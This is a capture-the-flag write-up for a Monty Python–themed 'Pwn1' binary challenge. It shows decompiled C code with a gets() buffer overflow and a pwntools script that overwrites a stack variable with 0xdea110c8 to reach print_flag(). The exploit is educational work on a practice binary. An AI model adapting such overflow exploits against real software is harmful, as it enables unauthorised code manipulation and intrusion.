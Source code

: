 # Pwn1 (pwn)
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/11e7f702-aff5-429b-b10a-b449f21d759c)  

The executable starts by asking a question, and ends execution for any answer I try
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/d2983e3e-f3c3-48b1-b765-188fb85eca5c)  

Let's load it in ghidra and see what we can find  

```c
undefined4 main(void)

{
  int iVar1;
  char local_43 [43];
  uint local_18;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(_stdout,(char *)0x2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other  side he see."
      );
  puts("What... is your name?");
  fgets(local_43,0x2b,_stdin);
  iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(local_43,0x2b,_stdin);
  iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == 0xdea110c8) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```
A Monty Python and the Holy Grail reference, very nice :D  
Actually looking at the program, we can identify the use of `gets`  bad >:(  
Then there is a check, that if true we call a `print_flag()` function. However, there is no (legal) way to write to local_18.  
However since `gets` is vulnerable, we can use it to write to local_18.  

## Exploitation
First we want to reach the call to `gets`. To achieve this we can send the following lines:
```
Sir Lancelot of Camelot
To seek the Holy Grail.
```
Then we can reach `gets`.
The stack layout will look like this
```
| local_43  |
| local_43+1|
| local_43+2|
|...........|
|...........|
|local_43+42|
| local_18  |
```
Therefore we can just write 43 bytes of garbage and then the magic value that we need local_18 to be.

```python
from pwn import *

r = process('./pwn1')
r.sendline(b'Sir Lancelot of Camelot')
r.sendline(b'To seek the Holy Grail.')

offset = b'A'*43

magic = p32(0xdea110c8)

r.sendline(offset + magic)
r.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/94138a15-b3fc-41c2-b4fb-dfc0245b47ba)
